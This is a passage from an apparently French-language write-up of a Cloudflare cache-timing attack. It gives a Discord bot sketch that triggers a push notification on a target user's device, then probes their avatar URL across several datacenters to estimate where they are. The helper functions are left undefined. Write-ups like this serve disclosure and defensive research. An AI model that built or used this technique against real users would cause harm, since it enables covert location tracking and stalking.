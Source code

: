 ```python
@client.event
async def on_ready():
    print("Bot GeoGuesser actif.")

@client.event
async def on_message(message):
    if message.content.startswith("!geoguesser"):
        try:
            target_username = message.content.split()[1]
        except IndexError:
            await message.channel.send("Usage : !geoguesser <nom_utilisateur>")
            return
        
        # Étape 1 : Modifier l'avatar avec une image aléatoire
        new_avatar = obtenir_image_aleatoire()
        await client.user.edit(avatar=new_avatar)
        
        # Étape 2 : Envoyer une demande d’amitié à la cible
        envoyer_demande_amitie(target_username)
        
        # Étape 3 : Attendre quelques secondes pour la notification push
        await asyncio.sleep(10)
        
        # Étape 4 : Scanner l'URL de l'avatar à partir des datacenters
        avatar_url = f"https://cdn.discordapp.com/avatars/{target_username}/avatarhash"
        resultats = {}
        for colo in ["SEA", "IAD", "EWR"]:
            resultats[colo] = scanner_cache(avatar_url, colo)
        
        localisation = calculer_localisation(resultats)
        await message.channel.send(f"Localisation estimée : {localisation}")

client.run("VOTRE_TOKEN_DISCORD")
```

---

## 6. Médias et Illustrations

### 6.1 Images Issues du Raw de Base

Les images suivantes sont directement issues du document original et illustrent différents aspects techniques et étapes de l’attaque :

1. **En-tête HTTP renvoyé par Cloudflare**  
   ![En-tête Cloudflare](https://gist.github.com/user-attachments/assets/95e1a39a-ed25-4531-9c57-a1b43c616519)

2. **Favicon de Namecheap (utilisé pour la première validation)**  
   ![Favicon Namecheap](https://gist.github.com/user-attachments/assets/8da57801-ae8e-4adf-9a2e-ec6feec6086f)
